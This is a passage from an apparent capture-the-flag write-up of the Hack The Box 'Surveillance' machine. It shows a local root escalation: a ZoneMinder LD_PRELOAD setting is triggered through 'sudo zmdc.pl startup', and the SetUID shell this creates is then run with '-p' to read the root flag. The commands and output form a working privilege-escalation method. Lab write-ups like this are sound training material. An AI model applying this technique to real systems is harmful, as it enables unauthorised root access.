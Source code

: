 
#### Exploit

I’ll update the setting in ZoneMinder. There seems to be a cron clearing this
setting every minute, so it’s worth setting this again just before running the
commands.

The command to run according to the help screen is `zmdc.pl`. Running it shows
the help menu:

    
    
    zoneminder@surveillance:/tmp$ sudo zmdc.pl
    No command given
    Usage:
        zmdc.pl {command} [daemon [options]]
    
    Options:
        {command} - One of 'startup|shutdown|status|check|logrot' or
        'start|stop|restart|reload|version'. [daemon [options]] - Daemon name
        and options, required for second group of commands
    

It’s not clear where in the process ZoneMinder injects the `LD_PRELOAD`. It is
clear the help menu is not enough.

Because I’m trying to “launch zmdc”, I’ll use the `startup` command:

    
    
    zoneminder@surveillance:/tmp$ sudo zmdc.pl startup
    Starting server
    

Now there’s a new SetUID/SetGID binary:

    
    
    zoneminder@surveillance:/tmp$ ls -l 0xdf-root 
    -rwsrwsrwx 1 root root 1396520 Apr 18 21:47 0xdf-root
    

Running with `-p` to not drip privs gives a shell with effective ids of root:

    
    
    zoneminder@surveillance:/tmp$ ./0xdf-root -p
    0xdf-root-5.1# id
    uid=1001(zoneminder) gid=1001(zoneminder) euid=0(root) egid=0(root) groups=0(root),1001(zoneminder)
    

Which is enough to read the flag:

    
    
    0xdf-root-5.1# cat /root/root.txt
    e3a84d31************************
    

[](/2024/04/20/htb-surveillance.html)

